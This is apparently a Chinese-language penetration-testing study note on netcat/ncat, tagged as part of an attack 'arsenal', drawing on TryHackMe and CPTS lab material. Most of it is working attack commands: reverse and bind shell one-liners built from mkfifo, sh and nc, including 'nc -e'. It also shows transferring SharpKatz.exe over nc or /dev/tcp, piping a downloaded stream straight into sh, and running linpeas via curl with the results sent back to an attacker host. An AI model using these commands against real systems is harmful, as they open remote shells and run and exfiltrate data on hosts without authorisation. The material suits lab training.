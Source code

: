 ```yaml
---
tags:
  - 渗透/利用
  - 渗透/CPTS
  - IT/Linux
  - 渗透/武器库
---
```

## nc

> Netcat, ncat, or nc

> The original Netcat was [released](http://seclists.org/bugtraq/1995/Oct/0028.html) by Hobbit in 1995, but it hasn't been maintained despite its popularity. The flexibility and usefulness of this tool prompted the Nmap Project to produce [Ncat](https://nmap.org/ncat/), a modern reimplementation that supports SSL, IPv6, SOCKS and HTTP proxies, connection brokering, and more.
> https://nmap.org/ncat/

可用 `-e` 选项（在服务端、客户端都可用）。但不安全（GAPING_SECURITY_HOLE）所以现在大部分 `netcat` 没有这个功能了。（**但Windows中nc64有妙用**）

原理：连接成功后执行指定命令。将可执行文件的stdin、stdout和stderr都重定向到指定TCP/UDP端口而不是默认控制台。


### [[命名管道]]派生


两种方法，取决于nc是否能用 `-e` 选项。

#### 1.Without GAPING_SECURITY_HOLE

`rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.13.17.96 4444 >/tmp/f`

- sh的 `-i` 指“交互模式”
- 将管道 `/tmp/f` 的内容交给bash执行，然后给nc发送命令，然后结果又交给管道 `/tmp/f`

#### 2.With GAPING_SECURITY_HOLE

`nc 10.13.17.96 4444 -e /bin/sh`



THM例：
- 反弹shell：`mkfifo /tmp/f; nc <攻击方IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`
- 绑定shell：`mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

> [!note] 理解
> 首先，在/tmp/f创建一个命名管道；然后，开启nc侦听器，将“侦听器的输入”连到“命名管道的输出”。  
> 关键，将nc侦听器的输出（我们发送的命令）直接通过管道传到sh，将 stderr 输出流发送到 stdout，并将 stdout 本身发送到命名管道的输入，从而完成循环。

> - [https://tryhackme.com/room/introtoshells](https://tryhackme.com/room/introtoshells)  
> - [https://www.linuxjournal.com/article/2156](https://www.linuxjournal.com/article/2156)
> - [https://www.ryotosaito.com/blog/?p=292](https://www.ryotosaito.com/blog/?p=292)


成功建立——但是不稳，比如无法使用tab、方向键、ctrl c还会断掉——称为“dumb shell”。升级为[[反弹shell#交互式|交互shell]]。




## 文件传输

如果目标机没有curl、wget但是有nc。

**例：把hostA的文件传递到hostB（下面演示原始Netcat和nmap的Ncat）**

### 方法一 - 正向连接传输

hostB监听，接收文件并输出。
```bash
# hostB:
nc -lvnp 8000 > SharpKatz.exe
## ncat的话要用 `--recv-only` 指定文件传输完成后关闭连接
ncat -l -p 8000 --recv-only > SharpKatz.exe

# hostA:
## `-q 0` 将告诉 Netcat 在完成后关闭连接
nc -q 0 192.168.49.128 8000 < SharpKatz.exe
## ncat的话用 `--send-only` 在传输完后自动断开连接
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```


### 方法二 - 反向连接传输

hostA监听（在hostB阻止入站流量时好用），并将文件作为输入，等待连接方将其取走。
```bash
# hostA:
sudo nc -lvnp 443 -q 0 < SharpKatz.exe
## ncat
sudo ncat -l -p 443 --send-only < SharpKatz.exe

# hostB:
nc 192.168.49.128 443 > SharpKatz.exe
## ncat
ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```


### 方法三 - 伪设备

> If we don't have Netcat or Ncat on our compromised machine, Bash supports read/write operations on a pseudo-device file [/dev/TCP/](https://tldp.org/LDP/abs/html/devref1.html).
> Writing to this particular file makes Bash open a TCP connection to `host:port`, and this feature may be used for file transfers.

hostA监听，同[[Netcat#方法二|方法二]]，只是hostB没有nc的话可以用伪设备获取数据。
```bash
# hostA:
sudo nc -l -p 443 -q 0 < SharpKatz.exe
## ncat
sudo ncat -l -p 443 --send-only < SharpKatz.exe

# hostB:
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
## 或者接收后直接执行
cat < /dev/tcp/192.168.49.128/443 | sh
```



## Windows

powershell编码的替代品：[PowerCat](https://github.com/besimorhino/powercat)




## tricks

### 传输枚举结果

- 攻击机，监听81端口，等待目标机的运行结果传回：`sudo nc -lvnp 81 | tee linpeas.txt`
- 目标机，执行脚本后nc传输到81端口：`curl <kali-IP>/linpeash.sh | sh |nc <kali-IP> 81`
	- 包含技巧：`curl <kali-IP>/linpeash.sh |sh` 直接执行远程脚本。类比[[powershell#^368d24|powershell-下载脚本、字符串]]
- LinPEAS结果的阅读方式：`less -r linpeas.txt`

